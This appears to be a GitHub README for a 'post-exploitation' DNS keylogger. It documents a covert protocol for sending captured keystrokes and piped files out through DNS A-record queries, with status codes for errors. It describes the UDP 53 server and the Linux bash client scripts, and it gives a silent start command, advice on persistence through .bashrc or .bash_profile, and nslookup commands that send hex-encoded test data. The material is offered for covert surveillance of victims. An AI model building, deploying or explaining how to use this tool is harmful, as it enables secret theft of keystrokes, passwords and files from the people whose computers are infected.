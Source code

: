 # DNS Keylogger
This post-exploitation keylogger will automatically report a computer's keystrokes.

This takes advantage of DNS tunelling/exfiltration.

# Protocol
## Starting a Connection
A record requests starting with `a` indicate the start of a "connection." When the server receives them, it will respond with a fake non-reserved IP address where the last octet contains the id of the client.
It is in the format of `a.1.1.1.[sld].[tld].`

Concurrent connections cannot exceed 254, and clients are never considered "disconnected."
## Exfiltrating Data
A record requests starting with `b` indicate exfiltrated data being sent to the server.
It is in the format of `b.[packet #].[id].[data].[sld].[tld].`

`id` is the id that was established on connection. Data is sent as ASCII data in hex.
## Malformed Record Requests
If the client sends an malformed record request, the server will respond with an ip address starting with `201`.
## Non-Existant Connections
If the client sends a data packet with an id greater than the # of connections, the server will respond with an IP address starting with `202`.
## Out of Order Packets
Occurs when client sends a packet with packet_id that doesn't match what is expected. The server responds with an IP address starting with `203`. Clients and servers should reset their packet numbers to 0. Then the client can resend the packet.
## Reached Max Connection
If the client attempts to create a connection when the max has reached, the server will respond with an IP address starting with `204`. Clients can keep trying, but until the server is reset, it won't be able to connect.
## Dropped Packets
Clients should rely on responses as acknowledgements of received packets. If they do not receive a response, resend the same payload.

# Server
## Listens on UDP port 53 for DNS packets
Looks for A record and CNAME record requests. Once an A record has been received, the rest of the data from the client should be CNAME record requests. Use the `-p` flag to specify a port to listen on.

# Client
## Linux
The Linux keylogger is two bash scripts. `connection.sh` is used by the `logger.sh` script to send the keystrokes to the server. If you want to manually send data, such as a file, you can pipe data to the `connection.sh` script. It will automatically establish a connection and send the data. 

To start the keylogger, run the command `./logger.sh && exit`. This will silently start the keylogger, and any inputs typed will be sent. `logger.sh` and `connection.sh` must be in the same directory for the keylogger to work. If you want persistance, you can add the command to the .bashrc and/or .bash_profile to start on a new interactive shell or on login.

### Sending Test Requests
You can use `nslookup` to send requests to the server:

`nslookup -query=A a.1.1.1.example.com 127.0.0.1` sends a connection request to localhost.

`nslookup -query=A b.1.1.54686520717569636B2062726F776E20666F782E1B.example.com 127.0.0.1` to send a test message to localhost.

The `sld` can be anything if you're testing on localhost, but you need to put something there.

# Side Notes
## Log file
The log file containing user inputs contains ASCII control characters, such as backspace, delete, and carriage return. If you print the contents using something like `cat`, you may not see all of the data.